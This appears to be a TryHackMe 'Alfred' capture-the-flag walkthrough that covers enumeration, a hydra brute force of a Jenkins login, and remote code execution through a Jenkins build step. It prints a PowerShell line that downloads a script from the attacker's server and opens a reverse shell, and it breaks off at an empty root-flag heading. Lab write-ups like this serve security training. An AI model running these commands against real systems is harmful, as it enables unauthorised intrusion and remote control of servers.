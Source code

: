 # TryHackMe - Alfred

[Room link](https://tryhackme.com/room/alfred)

---

## Enumeration

Nmap's result :

```bash
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy
```

Let's moving on the webserver on the port 80. We can see on email -> alfred@wayneenterprises.com

Nothing is really interesting on the source code. 

Let's get a simple dirb for enumerate the website.

```bash
dirb http://<target_ip>
```

We fond anything.

Now, let's see what is on the port 8080. Jenkins form.

There is the same thing for the previous website, let's run a simple dirb scan.

```bash
dirb http://<target_ip>:8080 -w
```

The return concerne only 403 replies.. We need to connect us for move forward.

---

## Exploitation

After few researchs, i find as the default username on Jenkins is : admin.

We can run a bruteforce with this form with hydra.

```bash
sudo hydra -f -V -l admin -P /usr/share/wordlists/SecLists/Passwords/Default-Credentials/default-passwords.txt 10.10.69.128 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit:loginError" -s 8080
```

We found the credentials admin:admin.

We can move on the porject section and "Configure". There is a "build environment" block which allow us to inject remotly code on the target.

As it tells on the TryHackMe topics, lets save a file with a specific Windows reverse shell on a file called "Invoke-PowerShellTcp.ps1".

Once done, let start a local simple python server on the directory where is our reverse shell.

```bash
$ sudo python3 -m http.server 8000
```

Then, add on the "build environment" section this follow lines (don't forget replace variables) :

```txt
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Now, we need to run the jenkins pipeline.

Now, we are on the target machine.

```cmd
PS C:\Program Files (x86)\Jenkins\workspace\project>
```

---

## User flag

The user flag is here -> C:\users\bruce\Desktop\user.txt

---

## Root flag

